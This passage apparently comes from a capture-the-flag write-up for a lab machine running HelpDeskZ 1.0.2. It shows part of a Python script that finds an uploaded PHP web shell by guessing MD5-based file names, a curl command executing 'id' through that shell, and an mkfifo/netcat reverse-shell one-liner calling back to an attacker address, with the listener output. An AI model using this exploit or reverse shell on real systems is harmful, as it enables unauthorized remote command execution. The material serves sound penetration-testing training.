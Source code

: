 ```
    md5hash = hashlib.md5(plaintext).hexdigest()
    url = helpdeskzBaseUrl+md5hash+'.'+ext
    #print("checking " + url)
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"

```

When I run it, passing in the upload path I found in the source, it finds my shell:

```

root@kali# ./exploit.py http://10.10.10.121/support/uploads/tickets/ cmd.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php

```

### Test WebShell

Now that I have a url, I’ll give it a spin:

```

root@kali# curl http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php?cmd=id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)

```

Nice!

### Interactive Shell

Go with the old standby:

```

root@kali# curl 'http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f'

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.121.
Ncat: Connection from 10.10.10.121:50042.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)

```
